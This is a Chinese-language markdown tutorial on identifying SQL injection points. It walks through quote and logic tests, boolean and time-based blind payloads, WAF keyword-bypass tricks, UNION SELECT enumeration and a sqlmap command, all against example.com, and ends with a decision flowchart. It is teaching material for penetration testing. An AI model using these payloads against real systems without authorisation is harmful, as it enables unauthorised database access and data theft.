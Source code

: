 # 如何判断SQL注入点

以下是系统性的注入点判断方法和操作步骤：

## 1. 识别输入点
- **检测位置**：
  - URL查询参数（如`?id=1`）
  - 表单输入字段（登录框/搜索框）
  - HTTP头部（Cookie/User-Agent/Referer）
  - REST API参数（JSON/XML数据）

## 2. 初步探测
### （1）单引号测试
```http
http://example.com/?id=1'
```

- 预期结果：

  - 数据库错误（如MySQL的"语法错误"）
  - 500服务器错误
  - 页面布局异常

### （2）逻辑测试

```http
正常情况：http://example.com/?id=1
恒真条件：http://example.com/?id=1' AND '1'='1
恒假条件：http://example.com/?id=1' AND '1'='2
```

- 对比观察：

  - 恒真条件返回正常页面
- 恒假条件返回空白/错误页面

## 3. 参数类型判断

### （1）数字型参数

```http
原始请求：http://example.com/?id=1
修改为：http://example.com/?id=1+1
```

- 判断依据：

  - 若返回`id=2`的结果则为数字型
- 支持运算表达式（如3-2/5*1）

### （2）字符型参数

```http
原始请求：http://example.com/?id=user
修改为：http://example.com/?id=user'||'test
```

- 判断依据：

  - 返回`usertest`相关结果
- 需要闭合引号（'或"）

## 4. 注释符验证

```sql
MySQL：--+ 或 #
MSSQL：--
Oracle：--
```

- **测试用例**：

```http
http://example.com/?id=1'--+
http://example.com/?id=1' ORDER BY 3#
```

## 5. 盲注检测

### （1）布尔型检测

```http
正常：http://example.com/?id=1' AND 1=1--+
异常：http://example.com/?id=1' AND 1=2--+
```

- 判断方法：

  - 对比两个请求的响应差异
- 检查页面元素/内容长度变化

### （2）时间型检测

```http
MySQL：http://example.com/?id=1' AND SLEEP(5)--+
MSSQL：http://example.com/?id=1'; WAITFOR DELAY '0:0:5'--
```

- 判断标准：

  - 响应时间显著增加（≥5秒）

## 6. 过滤规则测试

### （1）关键字绕过

```http
大小写混合：hTtp://example.com/?id=1' uNIoN sELecT 1,2,3--+
内联注释：http://example.com/?id=1'/*!UNION*/SELECT 1,2,3--+
```

### （2）特殊字符绕过

```http
URL编码：%27 → '，%20 → 空格
双重编码：%2527 → '，%253C → <
```

## 7. 联合查询验证

```http
步骤1：确定字段数
http://example.com/?id=1' ORDER BY 5--+

步骤2：验证回显位置
http://example.com/?id=-1' UNION SELECT 1,2,3--+
```

- 成功标志：

  - 页面显示数字2或3的位置
- 可在数字位插入SQL函数测试（如version()）

## 8. 工具辅助验证

```bash
使用sqlmap检测：
sqlmap -u "http://example.com/?id=1" --batch --level=3
```

- 关键输出：

  - 存在可注入参数标识
- 数据库类型确认

```mermaid
graph TD
A[开始] --> B{识别输入点}
B --> |成功| C[单引号测试]
B --> |失败| Z[结束]
C --> D{是否报错}
D --> |是| E[确认字符型注入]
D --> |否| F[逻辑测试]
F --> G{页面变化}
G --> |有差异| H[存在注入漏洞]
G --> |无差异| I[尝试盲注测试]
I --> J{时间延迟/布尔结果}
J --> |存在差异| H
J --> |无差异| Z
```

